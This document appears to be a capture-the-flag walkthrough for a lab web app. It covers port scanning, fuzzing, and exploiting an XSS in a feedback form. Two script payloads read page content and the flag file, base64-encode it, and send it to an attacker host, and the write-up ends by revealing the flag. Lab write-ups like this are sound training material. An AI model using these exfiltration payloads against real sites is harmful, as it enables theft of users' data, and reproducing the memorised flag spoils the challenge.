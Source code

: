 ```yaml
---
sticker: emoji//1f6cd-fe0f
---
```



# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8080 |  http   |

We got two open ports, `ssh` and `http` on port `8080`, let's take a look at the website:

![](images/Pasted%20image%2020241202124915.png)

Let's check source code:


![](images/Pasted%20image%2020241202124936.png)

Nothing useful, let's try to fuzz in order to find anything useful:



## FUZZING
---

![](images/Pasted%20image%2020241202125736.png)

Found a `/view_feedbacK` directory, it has status code `401` which means we are not authorized to read it, so, we need to be able to perform some sort of privilege escalation to be able to read it.

# RECONNAISSANCE
---
if we take a look at the feedback, we are able to see the following:

![](images/Pasted%20image%2020241202130251.png)

seems like a simple feedback form, but I believe this is vulnerable to XSS, so, let's try to craft a payload to get the contents of the home page to check if it's either vulnerable or not.




# EXPLOITATION
---


As said, this will be our payload:

```js
<script>  
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://IP:80/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

```ad-note
#### Breakdown of the code:

- `fetch("/")`: Requests the home page's content.
- `btoa(text)`: Encodes the content in Base64 to safely transmit it.
- `fetch('http://your_ip:80')`: Sends the encoded data to your server.
```

Let's start a python server and check if it works:

![](images/Pasted%20image%2020241202130611.png)

After sending the payload, we receive the contents of the page we have requested, in this case, home page, if we try decoding that, we get the following:


![](images/Pasted%20image%2020241202130742.png)


As shown, we successfully exploited [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/CROSS SITE SCRIPTING/CROSS SITE SCRIPTING (XSS).md|XSS]]and got the contents of the home page, right now, we can take other exploitations paths, such as trying to get a reverse shell and some other, to make this CTF simple, let's just use a payload that retrieves the contents of `http://10.10.133.79:8080/flag.txt`, since this is the file we want to read anyway.


# READING THE FILE
---


```js
<script>  
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})  
.then(response => response.text())  
.then(text => {  
fetch('http://10.6.34.159:9001/' + btoa(text), {mode:'no-cors'});  
});  
</script>
```

This payload does the same as the previous one, it just targets that `flag.txt` file, let's send it and get our base64 encoded flag:

![](images/Pasted%20image%2020241202131136.png)

Nice, let's decode:

![](images/Pasted%20image%2020241202131156.png)

We got the flag and finished the CTF, Gg!

```ad-hint

Flag: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
```


